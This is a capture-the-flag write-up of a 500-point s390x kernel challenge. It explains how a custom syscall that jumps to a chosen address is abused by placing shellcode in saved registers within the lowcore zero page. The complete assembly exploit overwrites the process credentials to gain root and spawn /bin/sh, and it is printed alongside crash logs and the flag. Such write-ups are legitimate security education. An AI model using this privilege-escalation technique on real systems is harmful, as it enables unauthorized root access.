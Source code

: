 # THREE NINETY GADGET

**Authors** [Nspace](https://twitter.com/_MatteoRizzo)

**Tags**: pwn, kernel, mainframe, s390

**Points**: 500 (1 solve)

> one_gadget? kone_gadget? [THREE NINETY GADGET!!!](https://ctf.bi.zone/files/three_ninety_gadget_824de25c9ea8a326964a4d1cb5c0e98ed2506416e13093334cc07dc69beb23d7.tar.xz) nc three_ninety_gadget.ctfz.one 390

## Analysis

This challenge is basically `kone_gadget` from SECCON 2021 (writeup [here](../../SECCON-2021/pwn/kone_gadget)) ported to s390x.

Like in the original challenge, the author patched the kernel to add a new syscall:

```c
SYSCALL_DEFINE1(s390_gadget, unsigned long, pc)
{
    register unsigned long r14 asm("14") = pc;
    asm volatile("xgr %%r0,%%r0\n"
             "xgr %%r1,%%r1\n"
             "xgr %%r2,%%r2\n"
             "xgr %%r3,%%r3\n"
             "xgr %%r4,%%r4\n"
             "xgr %%r5,%%r5\n"
             "xgr %%r6,%%r6\n"
             "xgr %%r7,%%r7\n"
             "xgr %%r8,%%r8\n"
             "xgr %%r9,%%r9\n"
             "xgr %%r10,%%r10\n"
             "xgr %%r11,%%r11\n"
             "xgr %%r12,%%r12\n"
             "xgr %%r13,%%r13\n"
             "xgr %%r15,%%r15\n"
             ".machine push\n"
             ".machine z13\n"
             "vzero %%v0\n"
             "vzero %%v1\n"
             "vzero %%v2\n"
             "vzero %%v3\n"
             "vzero %%v4\n"
             "vzero %%v5\n"
             "vzero %%v6\n"
             "vzero %%v7\n"
             "vzero %%v8\n"
             "vzero %%v9\n"
             "vzero %%v10\n"
             "vzero %%v11\n"
             "vzero %%v12\n"
             "vzero %%v13\n"
             "vzero %%v14\n"
             "vzero %%v15\n"
             "vzero %%v16\n"
             "vzero %%v17\n"
             "vzero %%v18\n"
             "vzero %%v19\n"
             "vzero %%v20\n"
             "vzero %%v21\n"
             "vzero %%v22\n"
             "vzero %%v23\n"
             "vzero %%v24\n"
             "vzero %%v25\n"
             "vzero %%v26\n"
             "vzero %%v27\n"
             "vzero %%v28\n"
             "vzero %%v29\n"
             "vzero %%v30\n"
             "vzero %%v31\n"
             ".machine pop\n"
             "br %0"
             : : "r" (r14));
    unreachable();
}
```

The custom syscall zeroes every general-purpose register and then jumps to an
address chosen by us. Somehow we have to use this to become root.

What makes this challenge difficult is that we have to write a kernel exploit for a fairly obscure architecture that no one on the team had seen before, and which is not supported by most of the tools we normally use (pwndbg, gef, vmlinux-to-elf, etc...).

## Exploitation

The first thing I tried was to replicate the solution we used for the original
challenge at SECCON. Unfortunately that doesn't work because the root filesystem
is no longer in an initramfs but in an ext2 disk. The flag is no longer in memory
and we would need to read from the disk first.

I also tried to use the intended solution for the original challenge (inject
shellcode in the kernel by using the eBPF JIT), but...

```
/ $ /pwn
seccomp: Function not implemented
```

it looks like the challenge kernel is compiled without eBPF or seccomp, so we
can't use that to inject shellcode either.

I also tried to load some shellcode in userspace, and then jump to it

```
[    4.215891] Kernel stack overflow.
[    4.216147] CPU: 1 PID: 43 Comm: pwn Not tainted 5.18.10 #1
[    4.216363] Hardware name: QEMU 3906 QEMU (KVM/Linux)
[    4.216532] Krnl PSW : 0704c00180000000 0000000001000a62 (0x1000a62)
[    4.216964]            R:0 T:1 IO:1 EX:1 Key:0 M:1 W:0 P:0 AS:3 CC:0 PM:0 RI:0 EA:3
[    4.217079] Krnl GPRS: 0000000000000000 0000000000000000 0000000000000000 0000000000000000
[    4.217140]            0000000000000000 0000000000000000 0000000000000000 0000000000000000
[    4.217196]            0000000000000000 0000000000000000 0000000000000000 0000000000000000
[    4.217251]            0000000000000000 0000000000000000 0000000001000a60 0000000000000000
[    4.218310] Krnl Code: 0000000001000a5c: 0000        illegal
[    4.218310]            0000000001000a5e: 0000        illegal
[    4.218310]           #0000000001000a60: 0000        illegal
[    4.218310]           >0000000001000a62: 0000        illegal
[    4.218310]            0000000001000a64: 0000        illegal
[    4.218310]            0000000001000a66: 0000        illegal
[    4.218310]            0000000001000a68: 0000        illegal
[    4.218310]            0000000001000a6a: 0000        illegal
[    4.218850] Call Trace:
[    4.219231]  [<00000000001144de>] show_regs+0x4e/0x80
[    4.219718]  [<000000000010196a>] kernel_stack_overflow+0x3a/0x50
[    4.219780]  [<0000000000000200>] 0x200
[    4.219958] Last Breaking-Event-Address:
[    4.219996]  [<0000000000000000>] 0x0
[    4.220445] Kernel panic - not syncing: Corrupt kernel stack, can't continue.
[    4.220652] CPU: 1 PID: 43 Comm: pwn Not tainted 5.18.10 #1
[    4.220727] Hardware name: QEMU 3906 QEMU (KVM/Linux)
[    4.220792] Call Trace:
[    4.220816]  [<00000000004ce1a2>] dump_stack_lvl+0x62/0x80
[    4.220879]  [<00000000004c4d16>] panic+0x10e/0x2d8
[    4.220933]  [<0000000000101980>] s390_next_event+0x0/0x40
[    4.220986]  [<0000000000000200>] 0x200
```

Unfortunately that didn't work either. At this point I started reading more about
the architecture that the challenge it's running on. I found [this page](https://www.kernel.org/doc/html/v5.3/s390/debugging390.html) from the
Linux kernel documentation, as well as IBM's manual useful.

As it turns out, on z/Architecture the kernel and userspace programs run in
completely different address spaces. Userspace memory is simply not accessible
from kernel mode without using special instructions and we cannot jump to
shellcode there.

At this point I was out of ideas and I started looking at the implementation of
Linux's system call handler for inspiration. One thing that I found interesting
is that the system call handler reads information such as the kernel stack
from a special page located at address zero. The structure of this special zero
page (lowcore) is described in [this Linux header file](https://elixir.bootlin.com/linux/latest/source/arch/s390/include/asm/lowcore.h).

Interestingly enough on this architecture, or at least on the version emulated by
QEMU, all memory is executable. Linux's system call handler even jumps to a
location in the zero page to return to userspace. If we could place some
controlled data somewhere, we could just jump to it to get arbitrary code
execution in the kernel.

At some point I started looking at the contents of the zero page in gdb and I
realized that there _is_ some memory that we could control there and use as
shellcode. For example `save_area_sync` at offset 0x200 contains the values of
registers r8-r15 before the system call. The values of those registers are completely
controlled by us in userspace. What if we placed some shellcode in the registers
and jumped to it? I used a very similar idea to solve [kernote](../../0CTF-2021-finals/pwn/kernote) from the 0CTF 2021 finals
except this time instead of merely using the saved registers as a ROP chain,
they're actually executable and we can use them to store actual shellcode!

We only have 64 bytes of space for the shellcode, which isn't a lot but should
be enough for a small snippet that gives us root and returns to userspace.

The zero page even contains a pointer to the current task, and we can use that
to find a pointer to our process's creds structure and zero the uid to get root.

Here is the full exploit:

```
.section .text
.globl _start
.type _start, @function
_start:
    larl %r5, shellcode
    lg %r8, 0(%r5)
    lg %r9, 8(%r5)
    lg %r10, 16(%r5)
    lg %r11, 24(%r5)
    lg %r12, 32(%r5)
    lg %r13, 40(%r5)
    lg %r14, 48(%r5)
    lg %r15, 56(%r5)
    lghi %r1, 390
    lghi %r2, 0x200
    svc 0

userret:
    # Launch a shell
    lghi %r1, 11
    larl %r2, binsh
    larl %r3, binsh_argv
    lghi %r4, 0
    svc 11

binsh:
    .asciz "/bin/sh"

binsh_argv:
    .quad binsh
    .quad 0

.align 16
shellcode:
    lg %r12, 0x340
    lg %r15, 0x348

    # Zero the creds
    lghi %r0, 0
    lg %r1, 0x810(%r12)
    stg %r0, 4(%r1)

    # Return to userspace
    lctlg %c1, %c1, 0x390
    stpt 0x2C8
    lpswe 0x200 + pswe - shellcode

.align 16
pswe:
    # Copied from gdb
    .quad 0x0705200180000000
    .quad userret
```

Flag: `CTFZone{pls_only_l0wcor3_m3th0d_n0__nintend3d_kthxbye}`